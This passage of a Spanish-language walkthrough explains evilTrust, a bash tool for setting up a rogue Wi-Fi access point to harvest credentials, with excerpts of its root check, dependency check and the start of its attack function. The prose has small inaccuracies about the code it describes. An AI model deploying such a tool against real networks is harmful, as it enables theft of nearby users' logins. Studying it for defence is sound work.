 ```go
else
	echo -e "\n${redColour}[!] Es necesario ser root para ejecutar la herramienta${endColour}"
	exit 1
fi
```

Tras su ejecución, a través de la función `dependencies`, se hace una comprobación de las herramientas necesarias para que evilTrust funcione:

```go
function dependencies(){
	sleep 1.5; counter=0
	echo -e "\n${yellowColour}[*]${endColour}${grayColour} Comprobando programas necesarios...\n"
	sleep 1

	dependencias=(php dnsmasq hostapd)

	for programa in "${dependencias[@]}"; do
		if [ "$(command -v $programa)" ]; then
			echo -e ". . . . . . . . ${blueColour}[V]${endColour}${grayColour} La herramienta${endColour}${yellowColour} $programa${endColour}${grayColour} se encuentra instalada"
			let counter+=1
		else
			echo -e "${redColour}[X]${endColour}${grayColour} La herramienta${endColour}${yellowColour} $programa${endColour}${grayColour} no se encuentra instalada"
		fi; sleep 0.4
	done

	if [ "$(echo $counter)" == "3" ]; then
		echo -e "\n${yellowColour}[*]${endColour}${grayColour} Comenzando...\n"
		sleep 3
	else
		echo -e "\n${redColour}[!]${endColour}${grayColour} Es necesario contar con las herramientas php, dnsmasq y hostapd instaladas para ejecutar este script${endColour}\n"
		tput cnorm; exit
	fi
}
```

Tal y como se puede apreciar, para el correcto funcionamiento de la herramienta, es necesario contar con `php`, `dnsmasq` y `hostpad` instalado. En caso de no contar con estas utilidades, evilTrust se encargará de instalar todo lo necesario para poder operar.

Una vez la comprobación es realizada, se llama a la función `startAttack`, donde tal y como su nombre indica... se comienza a desplegar el ataque.

Es en esta fase donde se configurarán una serie de archivos temporales necesarios para desplegar el AP, haciendo que la tarjeta de red opere en modo Router (es obligatorio que la tarjeta de red en uso acepte el **modo monitor**):

```go
function startAttack(){
	clear; if [[ -e credenciales.txt ]]; then
		rm -rf credenciales.txt
	fi

	echo -e "\n${yellowColour}[*]${endColour} ${purpleColour}Listando interfaces de red disponibles...${endColour}"; sleep 1

	# Si la interfaz posee otro nombre, cambiarlo en este punto (consideramos que se llama wlan0 por defecto)
	airmon-ng start wlan0 > /dev/null 2>&1; interface=$(ifconfig -a | cut -d ' ' -f 1 | xargs | tr ' ' '\n' | tr -d ':' > iface)
	counter=1; for interface in $(cat iface); do
		echo -e "\t\n${blueColour}$counter.${endColour}${yellowColour} $interface${endColour}"; sleep 0.26
```